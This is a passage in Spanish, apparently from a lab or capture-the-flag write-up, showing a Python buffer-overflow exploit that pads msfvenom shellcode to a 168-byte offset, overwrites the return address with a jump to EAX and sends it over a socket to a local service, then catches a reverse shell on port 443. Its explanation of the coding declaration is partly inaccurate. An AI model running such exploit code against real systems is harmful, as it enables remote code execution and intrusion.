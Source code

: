 ```python
payload = shellcode + b"A" * (offset - len(shellcode)) + pack("<I", 0x08048563) + b"\n" # Esto lo hacemos ya que el tama�ño de Bytes del shellcode no llega al tamaño del offset por lo tanto aplicamos un relleno de "A" hasta llegar a los 168 Bytes, luego apuntamos a la direccion estatica de EAX contenida en el propio binario que la obtuvimos con el comando objdump. Tambien colocamos un salto de linea al final para que una vez se coloque el payload se presione ENTER para enviarlo.
# Tambien rellenamos el tamaño de la direccion de EAX ya que le faltaba un 0 para estar completa.

#------------------------------------------------------

# Crear el socket y conectarse
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 7788))
s.recv(1024)

#------------------------------------------------------

# Enviamos paso a paso las opciones que nos pide el binario una vez lo ejecutamos. Si quisieramos ver paso a paso todo podriamos almacenar en una variable "data" y hacer un print(data) que almacene s.recv(1024) y luego un print(data)

# Agent ID :
s.send(b"48093572\n")
s.recv(1024)

# Opcion 3
s.send(b"3\n")
s.recv(1024)

# Enviamos el Payload
s.send(payload)
```

El comentario `# -*- coding: utf-8 -*-` le indica a Python qué codificación de caracteres se utiliza en el archivo de código fuente. La codificación define cómo los caracteres se representan como bytes en el archivo.

Por defecto, Python espera que el código esté en UTF-8, que es una codificación estándar que puede manejar la mayoría de los caracteres de muchos idiomas. Sin embargo, cuando tu código contiene bytes "crudos" que no corresponden a caracteres UTF-8 válidos (como en nuestro `shellcode`), Python arroja un error de codificación porque no puede interpretar esos bytes como texto.

Al agregar esa línea, estás haciendo explícito que el archivo puede contener bytes fuera del rango de UTF-8, evitando el error. **Esencialmente, le estás diciendo a Python que ignore la codificación estándar de texto para interpretar los bytes tal como son**, lo cual es útil cuando trabajamos con datos binarios como `shellcode` o cualquier otra secuencia de bytes.

Sin esa declaración, Python intenta interpretar todo como texto UTF-8 y arroja un error si encuentra bytes que no encajan en esa codificación.

-----

Simplemente bastaría con ponernos en escucha desde nuestra máquina por el *puerto 443* como especificamos en nuestro Shellcode de ``msfvenom`` y ejecutar el script que hemos creado.

![[VM 34.png]]